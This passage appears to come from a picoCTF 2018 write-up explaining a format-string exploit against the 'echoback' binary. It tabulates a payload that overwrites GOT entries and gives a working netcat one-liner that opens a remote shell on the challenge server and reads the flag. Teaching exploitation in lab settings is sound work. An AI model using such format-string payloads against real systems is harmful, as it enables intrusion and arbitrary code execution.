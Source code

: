 **Now**, the format string to do the appropriate writes to the `.got.plt` table:

| Format String Value | *Description* |
| --- | --- |
| `"\x10\xa0\x04\x08"` | little-endian address of `printf` entry in `.got.plt` (prints 4 chars) |
| `"\x1c\xa0\x04\x08"` | little-endian address of `puts` entry in `.got.plt` (prints 4 chars) |
| `"%1$0134513752x"` | print arg 1 as a hex value, padded with 0's, so that it is 134,513,752 chars wide |
| `"%7$n"` | write the # of chars printed so far (134,513,752 + 4 + 4) into the address pointed to by the 7th argument |
| `"%1$0331x"` | print arg1 as a hex value, padded with 0's, so that it is 331 chars wide |
| `"%8$n"` | write the # of chars printed so far (134,513,752 + 4 + 4 + 331) into the address pointed to by the 8th argument) |
| &lt;padding&gt; | pad the format string out to be exactly `0x7f` (127) bytes long

The format string, without the padding, is 4 + 4 + 14 + 4 + 8 + 4 = 38 bytes, which means we should add 89 bytes of padding.

After the padding is finished, we expect the program to jump into `vuln` again, and start reading a new string. This time we want the buffer to start with `"/bin/sh\0"`. Let's put all of this together and try it out:

```
$ (python -c 'print("\x10\xa0\x04\x08\x1c\xa0\x04\x08%1$0134513752x%7$n%1$0331x%8$n" + "U"*89 + "/bin/sh\0")'; cat -) | nc 2018shell.picoctf.com 37402
<LOTS OF OUTPUT ...>
0000000ffa4ab8cUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUinput your message:
ls
echoback
echoback.c
flag.txt
xinet_startup.sh
cat flag.txt
picoCTF{===REDACTED===}
```
{:.contains-term}

Just as in previous examples, we spawn a sub-shell to first print out the format string, and then start `cat` to echo back `stdin` into `stdout`. We pipe the combined output of both of these programs into the `nc` command which is used to connect to the challenge binary on the shell server. When the program on the other end receives the input that we've generated, it will eventually call `system("/bin/sh")`, at which point `cat` will be listening on our end for user input and will echo it back into the `nc` process, which in turn gets feed into the shell, giving us an interactive terminal. Head back to the [PicoCTF 2018 BinExp Guide]({% link _reference/hacking-101/picoctf-2018-binary-exploits.md %}) to continue with the next challenge.
